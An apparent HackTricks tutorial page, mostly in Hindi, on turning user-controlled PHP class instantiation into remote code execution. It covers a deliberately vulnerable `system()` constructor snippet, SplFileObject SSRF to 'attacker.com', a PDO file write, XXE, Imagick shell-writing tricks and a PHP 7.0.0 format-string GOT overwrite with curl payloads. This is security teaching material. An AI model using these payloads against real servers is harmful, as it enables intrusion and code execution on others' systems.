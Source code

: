 # PHP - RCE ऑब्जेक्ट निर्माण का दुरुपयोग: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

यह मूलतः [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) का सारांश है

## परिचय

new arbitrary objects बनाने से, जैसे `new $_GET["a"]($_GET["a"])`, Remote Code Execution (RCE) हो सकता है, जैसा कि एक [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में विस्तार से बताया गया है। यह दस्तावेज़ RCE हासिल करने की विभिन्न रणनीतियों को उजागर करता है।

## Custom Classes या Autoloading के माध्यम से RCE

सिंटैक्स `new $a($b)` का उपयोग एक object को instantiate करने के लिए किया जाता है जहाँ **`$a`** class name को दर्शाता है और **`$b`** constructor को दिया गया पहला argument है। ये variables user inputs जैसे GET/POST से आ सकते हैं, जहाँ वे strings या arrays हो सकते हैं, या JSON से आ सकते हैं जहाँ वे अन्य प्रकार के रूप में प्रस्तुत हो सकते हैं।

Consider the code snippet below:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
इस उदाहरण में, `$a` को `App` या `App2` और `$b` को एक सिस्टम कमांड (जैसे, `uname -a`) सेट करने पर वह कमांड निष्पादित हो जाती है।

**Autoloading functions** का दुरुपयोग तब किया जा सकता है जब ऐसे क्लासेज़ सीधे उपलब्ध न हों। ये फ़ंक्शन आवश्यकता पड़ने पर फाइलों से ऑटोमैटिक रूप से क्लासेज़ लोड करते हैं और इन्हें `spl_autoload_register` या `__autoload` का उपयोग करके परिभाषित किया जाता है:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Autoloading का व्यवहार PHP के संस्करणों के साथ बदलता है, जो अलग-अलग RCE संभावनाएँ प्रदान करता है।

## RCE via बिल्ट-इन क्लासेस

यदि custom classes या autoloaders मौजूद नहीं हैं, तो **बिल्ट-इन PHP क्लासेस** RCE के लिए पर्याप्त हो सकती हैं। इन क्लासेस की संख्या PHP के संस्करण और extensions के आधार पर लगभग 100 से 200 के बीच होती है। इन्हें `get_declared_classes()` के माध्यम से सूचीबद्ध किया जा सकता है।

रोचक constructors को reflection API के जरिए पहचाना जा सकता है, जैसा कि निम्नलिखित उदाहरण और लिंक [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) में दिखाया गया है।

**विशेष तरीकों के माध्यम से RCE में शामिल हैं:**

### **SSRF + Phar Deserialization**

`SplFileObject` class अपने constructor के माध्यम से SSRF को सक्षम करता है, जिससे किसी भी URL से कनेक्शन की अनुमति मिलती है:
```php
new SplFileObject('http://attacker.com/');
```
SSRF, Phar प्रोटोकॉल का उपयोग करके, PHP के 8.0 से पहले के संस्करणों में deserialization attacks का कारण बन सकता है।

### **Exploiting PDOs**

PDO class constructor आपको DSN strings के माध्यम से databases से कनेक्ट करने की अनुमति देता है, जो संभावित रूप से file creation या अन्य interactions को सक्षम कर सकता है:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP के वे वर्शन 5.3.22 और 5.4.12 तक `SoapClient` और `SimpleXMLElement` कंस्ट्रक्टर्स के माध्यम से XXE अटैक्स के प्रति संवेदनशील थे, जो libxml2 के वर्शन पर निर्भर था।

## RCE via Imagick Extension

**प्रोजेक्ट की निर्भरताएँ** के विश्लेषण में पता चला कि **Imagick** नए ऑब्जेक्ट्स instantiate करके **command execution** के लिए इस्तेमाल किया जा सकता है। यह कमजोरियों का शोषण करने का अवसर देता है।

### VID parser

VID parser में फाइल सिस्टम के किसी भी निर्दिष्ट पाथ पर कंटेंट लिखने की क्षमता पाई गई थी। इससे वेब-एक्सेसिबल डायरेक्टरी में एक PHP shell रखने के द्वारा Remote Code Execution (RCE) हासिल किया जा सकता है।

#### VID Parser + File Upload

ध्यान दिया गया कि PHP अपलोड की गई फाइलों को अस्थायी रूप से `/tmp/phpXXXXXX` में स्टोर करता है। Imagick का VID parser **msl** प्रोटोकॉल का उपयोग करते हुए फाइल पाथ में wildcards को संभाल सकता है, जिससे अस्थायी फ़ाइल को चुने हुए लोकेशन पर ट्रांसफर करना संभव होता है। यह तरीका फाइल सिस्टम में arbitrary file writing प्राप्त करने का एक अतिरिक्त तरीका प्रदान करता है।

### PHP Crash + Brute Force

[**मूल लेख**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में वर्णित एक विधि ऐसी फाइलें अपलोड करने पर आधारित है जो डिलीट होने से पहले सर्वर को क्रैश कर देती हैं। अस्थायी फाइल के नाम को brute-force करके, Imagick arbitrary PHP code को execute कर सकता है। हालांकि, यह तकनीक केवल ImageMagick के एक पुराने वर्शन में ही प्रभावी पाई गई थी।

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

जब यूज़र इनपुट क्लास नाम को नियंत्रित करता है (उदा., `new $_GET['model']()`), PHP 7.0.0 में `Throwable` refactor के दौरान एक अस्थायी बग आया जहाँ इंजन क्लास नाम को resolution के दौरान गलती से printf format string की तरह ट्रीट करता था। इससे PHP के अंदर क्लासिक printf-style primitives सक्षम हुए: `%p` के साथ leak, width specifiers के साथ write-count कंट्रोल, और `%n` के साथ प्रोसेस में pointers (उदाहरण के लिए, GOT entries on ELF builds) पर arbitrary writes।

Minimal repro vulnerable pattern:
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
शोषण रूपरेखा (संदर्भ से):
- class name में `%p` के माध्यम से Leak addresses करके एक writable target खोजें:
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- पोजिशनल पैरामीटर्स और width specifiers का उपयोग करके सटीक byte-count सेट करें, फिर `%n` से उस मान को stack पर पहुंचने वाले address पर लिखें; लक्ष्य एक GOT slot (e.g., `free`) बनाकर उसे आंशिक रूप से ओवरराइट कर `system` में बदलना।
- shell pipe वाले class name को पास करके हाइजैक्ड फ़ंक्शन को trigger करें ताकि `system("id")` पहुँच सके।

नोट्स:
- यह केवल PHP 7.0.0 पर काम करता है (Bug [#71105](https://bugs.php.net/bug.php?id=71105)); बाद की रिलीज़ में ठीक किया गया है। Severity: critical अगर arbitrary class instantiation मौजूद है।
- सामान्य payloads कई `%p` को chain करके stack को walkthrough करते हैं, फिर `%.<width>d%<pos>$n` का उपयोग आंशिक ओवरराइट के लिए करते हैं।

## संदर्भ

- https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/
- The Art of PHP: CTF‑born exploits and techniques

{{#include ../../../banners/hacktricks-training.md}}
